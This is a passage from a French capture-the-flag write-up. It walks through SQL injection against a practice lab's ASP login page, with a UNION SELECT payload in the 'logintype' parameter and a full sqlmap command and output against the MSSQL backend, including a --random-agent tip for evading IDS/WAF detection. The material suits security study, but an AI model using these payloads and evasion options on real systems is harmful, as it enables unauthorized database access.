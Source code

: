 J'ai insisté dans cette direction et finalement trouvé le nombre de colonnes de la table courante (6) en augmentant le nombre d'entrées NULL dans une requête UNION :  

```plain
username=admin&password=test&logintype=1%20union%20select%20null,null,null,null,null,null&rememberme=ON&B1=LogIn
```

Ici victoire, le serveur nous retourne un code de statut 200 :)   

Si on remplace l'un des NULL par *version()* on reçoit une erreur 500. Ce n'est pas le cas avec *@@version* ce qui signifie que la base de données est du Microsoft SQL ([le mot clé](https://docs.microsoft.com/en-us/sql/t-sql/functions/version-transact-sql-configuration-functions?view=sql-server-2017) est spécifique).  

L'autre particularité observée avec *ZAP Proxy* c'est que lors de l'envoi d'une requête de login, si cette dernière réussi, le cookie obtenu nous *colle à la peau* et fausse la suite des attaques. Il faut alors avoir recours à l'option *--drop-set-cookie* lorsque l'on lance *SQLmap*.  

Mais lors du lancement de ce dernier... nada. On est redirigé vers la page d'authentification. Cela est vite bypassé en utilisant l'option *--random-agent* (par défaut SQLMap envoie son nom dans le user-agent, ce qui fait le bonheur des IDS/IPS/WAF).  

On s'en sort finalement avec la commande suivante :  

```plain
devloop@kali:~$ sqlmap -u 'http://members.streetfighterclub.htb/old/verify.asp' --referer 'http://members.streetfighterclub.htb/old/login.asp' --data 'username=admin&password=test&logintype=1&rememberme=ON&B1=LogIn' --risk 3 --level 5 -p logintype --dbms mssql --drop-set-cookie --random-agent --string "ERROR: Service not available"
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.2.7#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 14:17:26

[14:17:26] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Windows NT 6.0; U; en; rv:1.8.1) Gecko/20061208 Firefox/2.0.0 Opera 9.51' from file '/usr/share/sqlmap/txt/user-agents.txt'
[14:17:27] [INFO] testing connection to the target URL
[14:17:27] [INFO] heuristics detected web page charset 'ascii'
sqlmap got a 302 redirect to 'http://members.streetfighterclub.htb:80/old/welcome.asp'. Do you want to follow? [Y/n] y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] n
[14:18:06] [INFO] testing if the provided string is within the target URL page content
[14:18:06] [WARNING] heuristic (basic) test shows that POST parameter 'logintype' might not be injectable
[14:18:06] [INFO] testing for SQL injection on POST parameter 'logintype'
[14:18:06] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:18:07] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[14:18:07] [INFO] testing 'Microsoft SQL Server/Sybase OR error-based - WHERE or HAVING clause (IN)'
[14:18:07] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (CONVERT)'
[14:18:07] [INFO] testing 'Microsoft SQL Server/Sybase OR error-based - WHERE or HAVING clause (CONVERT)'
[14:18:07] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (CONCAT)'
```